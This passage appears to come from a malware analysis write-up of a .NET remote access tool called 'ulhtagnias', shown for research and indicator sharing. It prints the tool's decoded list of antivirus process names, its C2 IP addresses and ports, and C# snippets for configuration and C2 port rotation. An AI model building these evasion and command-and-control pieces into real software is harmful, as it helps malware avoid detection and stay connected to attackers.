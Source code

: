 ```csharp
PS> ([System.Text.Encoding]::UTF8.GetString($encAvs)).split(",")
bdss=Bit Defender
onlinent=Q.Heal
bdagent=Bit Defender Agent
msseces=MS Essentials     
fssm32=FSecure
avp=Kaspersky
avgnt=Avira
spbbcsvc=Symantec
updaterui=McAfee
avgui=AVG
avgcc=AVG
mbam=Ant Malware
avastui=Avast
avast=Avast 
 ```
  
<h6>With the same logic, we can get the content of the second array which get the IP of the C2 to contact.</h6>

```csharp
PS> ([System.Text.Encoding]::UTF8.GetString($tab)).split(",")   
198.46.177.73
```

<h6>Some identifiers like the name of user, default IP and logname can be found.</h6>

```csharp
public static string ulhtagniasmainApp = "ulhtagnias|ulhtagnias".Split(new char[]{'|'})[0];
public static string ulhtagniaspc_id = "vhldsp|ulhtagnias".Split(new char[]{'|'})[0];
public static string ulhtagniasremvUser = "drlarmn|ulhtagnias".Split(new char[]{'|'})[0];
public static string ulhtagniasfilesLogs = "rndlbes".Split(new char[]{'|'})[0];}
public static string ulhtagniasdefaultP = "122.200.110.101|ulhtagnias".Split(new char[]{'|'})[0];
```
<h6>This connects on the default port (6421) and can switch depending on the needs of the operations.</h6>

```csharp
public static int[] ports = new int[]{6421,4920,10422,14823,16824};
public void ulhtagniasports_switch()
 {
  try
  {
   this.port_sn++;
   ulhtagniasCONF.ulhtagniasport = ulhtagniasCONF.ports[this.port_sn];
   if (this.port_sn >= ulhtagniasCONF.ports.Length - 1){this.port_sn = 0;}
  }
 catch{this.port_sn = 0;}
 }
```
<h5>Addionnal informations :</h5>
<ul>
  <li>ulhtagnias.exe</li>
  <p align="center">
<table>
  <tr>
    <td>pdb path</td>
    <td>g:\ulhtagnias\ulhtagnias\obj\Debug\ulhtagnias.pdb</td>
  </tr>
  <tr>
    <td>Compilation time</td>
    <td>2020-01-09 21:21:34</td>
  </tr>
</table>
</p>
  <li>Special Benefits.docx</li>